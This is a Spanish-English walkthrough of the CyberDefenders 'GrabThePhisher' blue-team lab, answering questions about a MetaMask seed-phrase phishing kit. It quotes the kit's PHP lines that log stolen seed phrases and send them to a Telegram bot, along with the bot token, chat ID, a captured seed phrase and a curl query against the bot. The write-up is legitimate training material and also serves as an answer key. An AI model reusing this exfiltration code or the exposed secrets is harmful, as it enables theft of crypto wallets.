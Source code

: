 +++
title = "GrabThePhisher - Cyberdefenders (Easy)"
+++

[link del laboratorio GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/)

## Descargar laboratorio y moverlo a la máquina virtual REMnux

### unzip lab

```bash
7z x 95-GrabThePhisher.zip -pcyberdefenders.org
```

## Preguntas

### Q1

Which wallet is used for asking the seed phrase?

¿Qué monedero se utiliza para pedir la frase semilla?

![first question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab1.png)

#### Respuesta

`Metamask`

### Q2

What is the file name that has the code for the phishing kit?

¿Cuál es el nombre del archivo que contiene el código del kit de phishing?

#### Respuesta

`metamask.php`

### Q3

In which language was the kit written?

¿En qué lenguaje fue desarrollado el kit?


#### Respuesta

`php`


### Q4


What service does the kit use to retrieve the victim's machine information?

¿Qué servicio utiliza el kit para recuperar la información de la máquina de la víctima?


![fourth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab2.png)

#### Respuesta

`sypex geo`

### Q5

How many seed phrases were already collected?

¿Cuántas frases con semilla se han recopilado ya?

*En el código se puede ver que las frases semilla se escriben en un archivo log.txt*

```php
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND); 
```

![fifth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab3.png)

#### Respuesta

`3`

### Q6

Write down the seed phrase of the most recent phishing incident

Escriba la frase semilla del incidente de phishing más reciente

#### Respuesta

```bash
father also recycle embody balance concert mechanic believe owner pair muffin hockey 
```

### Q7

Which medium had been used for credential dumping?

¿Qué medio se había utilizado para el robo de credenciales?

*Línea de código presente en el archivo metamask.php*

```php
$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html"; 
```

#### Respuesta

`telegram`

### Q8

What is the token for the channel?

¿Cuál es el token del canal?

*Línea de código presente en el archivo metamask.php*

```php
$token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

#### Respuesta

`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`


### Q9

What is the chat ID of the phisher's channel?

¿Cuál es el ID de chat del canal del autor del phishing?

*Línea de código presente en el archivo metamask.php*

```php
$id = "5442785564"; 
```

#### Respuesta

`5442785564`

### Q10

What are the allies of the phish kit developer?

¿Cuáles son los aliados del desarrollador del kit de phishing?


*Comentario encontrado en el código fuente del archivo metamask.php*

```php
/*

 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
*/  
```

#### Respuesta

`j1j1b1s@m3r0`

### Q11

What is the full name of the Phish Actor?

¿Cuál es el nombre completo del creador del phishing?

```bash
curl https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat\?chat_id\=5442785564 | jq 
```


```bash
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ],
    "max_reaction_count": 11,
    "accent_color_id": 6
  }
}  
```

#### Respuesta

`Marcus Aurelius`


### Q12

What is the username of the Phish Actor?

¿Cuál es el nombre de usuario del creador del phishing?

```bash  
"active_usernames": [
      "pumpkinboii"
    ],
```

#### Respuesta

`pumpkinboii`